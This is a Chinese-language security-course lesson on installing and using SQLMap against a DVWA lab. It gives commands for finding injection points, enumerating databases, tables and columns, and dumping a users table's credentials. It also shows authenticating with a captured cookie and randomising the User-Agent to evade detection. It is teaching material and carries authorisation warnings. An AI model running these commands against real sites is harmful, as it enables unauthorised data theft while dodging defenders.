# 网络安全系统教学合集：P77：SQLMap的安装与使用 🔧



在本节课中，我们将学习自动化SQL注入工具SQLMap的安装与基本使用方法。SQLMap是一个功能强大的开源工具，能够自动检测和利用SQL注入漏洞，极大地简化了渗透测试过程。



## 概述

上一节我们介绍了布尔盲注和时间盲注的手动利用过程。本节中，我们来看看如何利用SQLMap工具自动化完成这些任务，提高渗透测试的效率。

## SQLMap简介



SQLMap是一个使用Python语言开发的开源渗透测试工具。它可以用来自动化检测和利用SQL注入漏洞，并获取数据库服务器的权限。该工具功能强大，支持多种数据库类型，能够针对各种不同的SQL注入漏洞类型进行渗透测试。



## 安装SQLMap



以下是SQLMap的安装方法：



1.  **访问官网下载**：可以访问SQLMap项目的官方网站进行下载。
2.  **使用课程工具集**：也可以从课程提供的工具集中获取已下载好的SQLMap，以解决从GitHub下载速度慢的问题。

## 在Windows系统上使用SQLMap

下载完成后，解压文件并进入SQLMap目录。由于SQLMap是Python编写的，需要通过Python解释器来执行。



以下是启动SQLMap的基本命令：
```bash
python sqlmap.py
```
如果命令执行后显示版本信息，则说明安装成功，可以正常使用。如果提示缺少Python库或包，请根据提示进行相应安装。







要查看SQLMap的所有参数和帮助信息，可以使用以下命令：
```bash
python sqlmap.py -h
```

## 在Kali Linux系统上使用SQLMap



Kali Linux系统默认集成了SQLMap，无需额外配置。直接在终端中输入以下命令即可使用：
```bash
sqlmap
```



## SQLMap基本使用



### 单目标测试

假设我们要测试一个靶场（例如DVWA）的第一关是否存在SQL注入漏洞。

以下是测试单个URL的基本命令格式：
```bash
python sqlmap.py -u "http://target.com/page.php?id=1"
```
参数说明：
*   `-u`：指定目标URL。
*   在URL中必须带上注入参数（如`id=1`），因为SQLMap需要知道参数的名称才能进行测试。



如果目标URL有多个参数（例如`id=1&page=10`），并且你只想测试其中一个参数，可以使用`-p`参数来指定：
```bash
python sqlmap.py -u "http://target.com/page.php?id=1&page=10" -p id
```
如果希望SQLMap自动选择最佳策略进行利用，而不进行手动选择，可以加上`--batch`参数。

### 实战演示：测试DVWA第八关

我们以熟悉的DVWA第八关（盲注关卡）为例进行演示。



执行以下命令进行测试：
```bash
python sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --batch
```
SQLMap会开始自动检测。在输出信息中，如果看到类似以下内容，则说明发现了注入点：
```
Parameter: id (GET)
    Type: boolean-based blind
    Type: time-based blind
```
这表明目标存在布尔盲注和时间盲注漏洞。



### 获取数据库信息



发现漏洞后，我们可以使用SQLMap进一步获取数据。



以下是获取数据库名称的命令：
```bash
python sqlmap.py -u "目标URL" --dbs
```
SQLMap会开始逐个字符猜测数据库名，这个过程对于盲注来说可能较慢。

### 获取表名、字段名和数据

在获取数据库名后，可以进一步深入。

以下是获取指定数据库（例如`security`）中所有表名的命令：
```bash
python sqlmap.py -u "目标URL" -D security --tables
```
获取到表名（例如`users`）后，可以获取该表的字段名：
```bash
python sqlmap.py -u "目标URL" -D security -T users --columns
```
最后，可以导出（脱库）指定字段的数据：
```bash
python sqlmap.py -u "目标URL" -D security -T users -C id,username,password --dump
```
**重要提示**：`--dump`命令会导出数据库中的所有数据，在实际渗透测试或安全评估中，**必须获得明确授权**后方可使用，否则属于违法行为。通常，证明存在漏洞（如获取到数据库名）即可提交安全报告。



脱库的结果默认保存在用户目录下的 `.sqlmap/output/` 文件夹中。

## 高级使用技巧



### 批量测试多个目标



如果需要测试多个URL，可以将所有目标写在一个文本文件中（每行一个URL），然后使用`-m`参数指定该文件。
```bash
python sqlmap.py -m target_list.txt
```



### 处理需要Cookie认证的页面

对于需要登录才能访问的页面（如DVWA），需要携带有效的Cookie信息。



首先，使用Burp Suite等工具抓取登录后的请求包，复制其中的Cookie值。

然后，在SQLMap命令中使用`--cookie`参数带上该值：
```bash
python sqlmap.py -u "需要登录的URL" --cookie="抓取到的Cookie值"
```
这样SQLMap就能绕过登录界面，直接对受保护的页面进行注入测试。





### 修改User-Agent标识



默认情况下，SQLMap发送的请求头中会包含`User-Agent: sqlmap`的标识，这很容易被防御系统识别。





为了避免被发现，可以使用`--random-agent`参数，让SQLMap随机使用一个正常的浏览器User-Agent：
```bash
python sqlmap.py -u "目标URL" --random-agent
```
也可以使用`--user-agent`参数指定一个固定的User-Agent字符串。



### 设置代理观察流量





在测试或学习时，可以通过`--proxy`参数设置代理，将SQLMap的请求流量发送到Burp Suite等拦截工具，以便观察其工作原理。
```bash
python sqlmap.py -u "目标URL" --proxy="http://127.0.0.1:8080"
```



## 总结



本节课中我们一起学习了自动化SQL注入工具SQLMap的核心使用方法。我们了解了SQLMap的安装、基本命令格式，以及如何对单目标和多目标进行测试。我们还掌握了获取数据库信息（库、表、字段、数据）的方法，并学习了处理需要Cookie认证的页面、修改User-Agent和设置代理等高级技巧。SQLMap是一个极其强大的工具，熟练掌握它能显著提升在渗透测试中检测和利用SQL注入漏洞的效率。请务必在合法授权的范围内使用它。